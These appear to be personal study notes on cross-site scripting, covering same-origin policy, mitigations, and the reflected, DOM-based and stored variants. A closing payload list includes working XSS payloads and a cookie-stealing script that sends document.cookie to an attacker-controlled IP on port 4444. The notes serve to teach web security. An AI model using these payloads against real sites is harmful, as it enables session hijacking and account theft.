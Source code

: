 # XSS
## Same Origin Policy
- checks protocol, host, and port of a website
- if all those are the same then the brower allows the two pages to read/write to each other
## Migitations
- Use output encoding when including data into the HTML document
- DOMPurify library
## Reflected XSS
Input to a webpage is reflected back to the user in the response from the webserver
1. user clicks malicious link (www.acme.com?message=`<script>evil()</script>`)
2. the web server by incorporate the value into the HTML document created for the user (Source code: `<h1>Hello {value of message}</h1>`)
3. the web server returns malicious document to the user (`<h1><script>evil()</script></h1>`)
4. user's browser executes the script `<script>evil()</script>`
## DOM-based XSS
User input lands in dangerous part of JS code
1. user clicks malicious object on page (`<span onmouseover='evil();'></span>`)
2. JS parses the input and incorporates into the page using the DOM (Source code: `<h1>Hello {value of message}</h1>`)
3. Browser executes script `evil()`
4. Note: vulnerability is entirely in the browser
5. Look for usage of `innerHTML`
## Persistent/Stored XSS
Malicious JS is stored in the webserver and served to the user upon request
1. Database is poisoned with an insertion of a script (Field: message, value: `<script>evil()</script>`)
2. The application server incorporates the value into the HTML document created for the user (Source code: `<h1>Hello {value of message}</h1>`)
3. Document generated by application: `<h1>Hello <script>evil()</script></h1>`
4. User's browser executes `<script>evil()</script>`
## Example Payloads
```html
<!-- user alert(document.domain) -->
<script>alert(document.domain)</script>
<!-- self firing -->
<img src=x onerror=alert(1) />
<!-- 192.168.0.192 is hacker's IP and they are listening on port 4444, this lets them access the session cookie -->
<script>new Image().src = "http://192.168.0.192:4444/hacker.php?output="+document.cookie;</script>

```